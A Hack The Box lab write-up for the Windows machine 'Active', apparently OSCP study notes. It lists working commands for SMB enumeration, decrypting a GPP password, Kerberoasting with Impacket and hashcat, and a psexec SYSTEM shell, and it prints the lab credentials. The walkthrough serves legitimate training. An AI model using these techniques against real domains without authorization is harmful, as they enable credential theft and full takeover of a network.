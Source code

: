## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)

## 🧭 Recon

### 🔍 Full TCP Port Scan
```bash
nmap -sT -p- --min-rate 5000 -oA nmap/alltcp 10.10.10.100
```

### 🔍 Service Version and Script Scan
```bash
nmap -sV -sC -p 53,88,135,139,389,445,464,593,636,3268,3269,5722,9389,47001,49152-49158,49169,49170,49179 -oA nmap/scripts 10.10.10.100
```

### 🔍 UDP Scan (for completeness)
```bash
nmap -sU -p- --min-rate 5000 -oA nmap/alludp 10.10.10.100
```

Key open ports included [Kerberos](KERBEROS), [SMB](SMB.md), [LDAP](LDAP.md), and [HTTP](HTTP.md).

---

## 📂 SMB Enumeration

### 🔎 Share Listing with smbmap
```bash
smbmap -H 10.10.10.100
```

### 🔎 Confirm access with enum4linux
```bash
enum4linux -a 10.10.10.100
```

---

## 📁 Replication Share - GPP Password

### 🗂️ Access the Replication share
```bash
smbclient //10.10.10.100/Replication -U ""%""
```

### 🧾 Locate GPP password in `Groups.xml`
```xml
cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"
```

### 🔐 Decrypt GPP password
```bash
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
# Output: GPPstillStandingStrong2k18
```

---

## 👤 User Shell

### 🗂️ Enumerate users with access
```bash
smbmap -H 10.10.10.100 -d active.htb -u SVC_TGS -p GPPstillStandingStrong2k18
```

### 📥 Get `user.txt`
```bash
smbclient //10.10.10.100/Users -U active.htb\\SVC_TGS%GPPstillStandingStrong2k18
smb: \SVC_TGS\desktop\> get user.txt
```

---

## 🔥 Kerberoasting

### 🎟️ Dump SPNs with Impacket
```bash
GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/SVC_TGS -save -outputfile GetUserSPNs.out
```

### 🔓 Crack Ticket with Hashcat
```bash
hashcat -m 13100 -a 0 GetUserSPNs.out /usr/share/wordlists/rockyou.txt --force
# Output: Ticketmaster1968
```

---

## 🛠️ Administrator Access

### 🔓 Use cracked password to access shares
```bash
smbmap -H 10.10.10.100 -d active.htb -u administrator -p Ticketmaster1968
```

### 📥 Get `root.txt`
```bash
smbclient //10.10.10.100/C$ -U active.htb\\administrator%Ticketmaster1968
smb: \users\administrator\desktop\> get root.txt
```

---

## 🖥️ Shell as SYSTEM (Optional)

### 📦 Use psexec.py from Impacket
```bash
psexec.py active.htb/administrator@10.10.10.100
# Enter password: Ticketmaster1968
```

```cmd
whoami
# Output: nt authority\system
```